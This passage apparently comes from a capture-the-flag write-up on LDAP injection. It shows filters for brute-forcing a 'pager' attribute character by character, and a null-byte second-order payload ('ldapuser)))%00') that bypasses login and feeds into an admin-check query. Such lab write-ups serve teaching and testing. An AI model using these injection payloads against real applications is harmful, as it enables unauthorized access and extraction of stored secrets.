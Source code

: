 This would return results only if the mail attribute had data in it.

#### Pager Brute

Next I wanted to extract the data from the pager attribute, using a query like `ldapuser)({attrib}={otp}*`. So to see if `2` is the first character in `pager`, the query would look like:

```

(&
  (&
    (objectClass=inetOrgPerson)
    (uid=ldapuser)
    (pager=2*)
  )
  (pager=*)
)

```

#### Admin Check

The second order injection gets more complete. I submitted `ldapuser)))%00`. In the first query, for login, that would result in:

```

(&
  (&
    (objectClass=inetOrgPerson)
    (uid=ldapuser)))%00)
  )
  (pager=*)
)

```

If I truncate that at the null, it becomes:

```

(&
  (&
    (objectClass=inetOrgPerson)
    (uid=ldapuser)
  )
)

```

So that will work fine to get me in as ldapuser.

Next, it will submit that same username back to the second query to check for admin. That becomes:

```

(&
  (&
    (objectClass=inetOrgPerson)
    (uid=ldapuser)))%00)
    (|
      (gidNumber=4)
      (gidNumber=0)
    )
  )
  (pager=*)
)

```
